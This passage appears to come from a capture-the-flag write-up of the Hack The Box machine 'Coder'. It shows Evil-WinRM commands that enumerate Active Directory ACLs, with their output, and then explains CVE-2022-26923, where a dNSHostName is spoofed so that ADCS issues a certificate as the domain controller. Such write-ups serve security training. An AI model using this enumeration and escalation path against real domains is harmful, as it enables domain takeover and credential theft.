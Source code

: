 ```
*Evil-WinRM* PS C:\> (Get-Acl "AD:OU=BuildAgents,OU=Development,DC=coder,DC=htb").access
...[snip]...

```

There’s a lot there, but I’m particularly interested in the rights from groups I have control over. BuildAgent Mgmt has some access:

```
*Evil-WinRM* PS C:\> (Get-Acl "AD:OU=BuildAgents,OU=Development,DC=coder,DC=htb").access | where IdentityReference -eq "coder\PKI Admins"
*Evil-WinRM* PS C:\> (Get-Acl "AD:OU=BuildAgents,OU=Development,DC=coder,DC=htb").access | where IdentityReference -eq "coder\Software Developers"
*Evil-WinRM* PS C:\> (Get-Acl "AD:OU=BuildAgents,OU=Development,DC=coder,DC=htb").access | where IdentityReference -eq "coder\BuildAgent Mgmt"

ActiveDirectoryRights : CreateChild, DeleteChild
InheritanceType       : All
ObjectType            : bf967a86-0de6-11d0-a285-00aa003049e2
InheritedObjectType   : 00000000-0000-0000-0000-000000000000
ObjectFlags           : ObjectAceTypePresent
AccessControlType     : Allow
IdentityReference     : CODER\BuildAgent Mgmt
IsInherited           : False
InheritanceFlags      : ContainerInherit
PropagationFlags      : None

ActiveDirectoryRights : Self, ReadProperty, WriteProperty
InheritanceType       : Descendents
ObjectType            : 72e39547-7b18-11d1-adef-00c04fd8d5cd
InheritedObjectType   : bf967a86-0de6-11d0-a285-00aa003049e2
ObjectFlags           : ObjectAceTypePresent, InheritedObjectAceTypePresent
AccessControlType     : Allow
IdentityReference     : CODER\BuildAgent Mgmt
IsInherited           : False
InheritanceFlags      : ContainerInherit
PropagationFlags      : InheritOnly

```

Object Type bf967a86-0de6-11d0-a285-00aa003049e2 is a [Computer object](https://learn.microsoft.com/en-us/windows/win32/adschema/c-computer), and 72e39547-7b18-11d1-adef-00c04fd8d5cd is a [Validated-DNS-Host-Name](https://learn.microsoft.com/en-us/windows/win32/adschema/r-validated-dns-host-name).

### Exploit - Intended

#### Background - CVE-2022-26923

[This post](https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4) does a really nice job of describing a vulnerability, CVE-2022-26923, in Windows that was patched before Coder was released.

In this vulnerability, the DNS host name property (`dNSHostName`) were not required to be unique on a domain, and thus, it was possible to change the `dNSHostName` property on a computer the attacker has full control over to match that of a target computer (like the DC), and then abuse ADCS to get a certificate as that DC. This would give the attacker the ability to do things as the DC, like dump the hashes.
